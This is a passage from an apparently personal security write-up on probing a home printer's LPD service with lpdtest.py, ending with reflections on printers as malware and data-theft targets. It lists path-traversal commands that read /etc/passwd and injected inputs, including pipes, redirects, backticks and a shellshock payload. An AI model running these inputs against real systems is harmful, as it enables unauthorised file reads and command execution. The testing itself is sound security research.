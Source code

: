 $ lpdtest.py printer get /etc/passwd
$ lpdtest.py printer get …/…/…/etc/passwd

etc…

###### ‘in’ Test

This test is for fuzzing around with user input (hostname,username, jobname, filenames, etc.).
This might be useful to test for interpretation of shell commands…

```
# Test for environment variables
$ lpdtest.py printer in '$UID'

# Test for pipes and redirects
$ lpdtest.py printer in '| pwd'
$ lpdtest.py printer in '>/etc/passwd'

# Test for backticks
$ lpdtest.py printer in '`ls`'

# Test for [shellshock (CVE-2014-6271)](http://seclists.org/oss-sec/2014/q3/650)
$ lpdtest.py printer in '() {:;}; /bin/ping -c1 1.2.3.4'
```

As expected these attacks were already fixed.
My printer spit out a few pages with lines like

“If you can read this lpdtest.py XYZ failed!”

So the result here some wasted paper and ink…

------

### Summary

#### Why Printer Exploitation?

- (most) printers are already full blown computers!
  - Printer as port/network/exploits scanner
  - Computing/hash-cracking/sniffing
  - Malware upload
  - “Stealth”/“uncleanable” command and control
  - Unencrypted data theft

#### Afterthoughts

- How many people would expect their printers is infected?
- How many users/admins/security-auditors audit and hard secure their network printers?
- How many persons or anti malware products could clean such a malware?
- …?

#### Outlook and closing words

If I get the hands on some nicer printer I will deliver some exploit stuff later on I promise.
If I get some more time to get a breakdown of my current home printer so I can take a look under the hood and to figure something out.
An example here would be to capture a firmware update and trying to unpack/reverse that one.
This would take a lot more time and preparation of my part, which would cause serious delay to this article as well.
